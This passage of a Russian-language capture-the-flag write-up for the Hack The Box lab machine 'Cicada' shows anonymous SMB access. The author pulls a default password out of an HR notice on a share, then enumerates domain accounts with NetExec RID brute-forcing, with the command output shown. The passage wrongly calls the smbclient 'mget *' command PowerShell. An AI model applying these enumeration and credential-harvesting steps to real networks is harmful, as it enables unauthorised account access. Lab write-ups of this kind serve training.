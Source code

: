 Мы видим что у нас есть какой-то файл внутри шара, к которому мы имеем доступ, 
```
smb: \> ls
  .                                   D        0  Thu Mar 14 14:29:09 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 20:31:48 2024

                4168447 blocks of size 4096. 141480 blocks available
```

Стоит учитывать, что на данный момент мы находимся в **Windows**, поэтому, чтоб скопировать файл в нашу директорию на нашу ОС, нам нужно выполнить следуйщую **Power shell** команду
```
smb: \> mget *
```

Теперь мы можем посмотреть содержание txt файла
```
Hexada@hexada ~/app/docker_volume/cicada.htb$ cat 'Notice from HR.txt'                                                                                                                     

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*****

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

На основе этого письма, мы можем узнать, что в учетных записях **SMB** сети, у всех по умолчанию стоит пароль `Cicada$M6Corpb*****`, если логично подумать, должен быть какой-то сотрудник, который забыл изменить пароль, если у нас получиться узнать список учётных записей **SMB** сети, возможно, мы сможем подключиться к какой-то из них, для этого мы будем использовать утилиту **NetExec**
```git clone https://github.com/Pennyw0rth/NetExec```
```sudo pacman -S poetry``` либо ```sudo apt install poetry```
```poetry install```
```cd nxc```
```poetry run python netexec.py smb cicada.htb -u abzee -p "" --rid-brute > cicada.txt```
```
SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\abzee: (Guest)
SMB                      10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)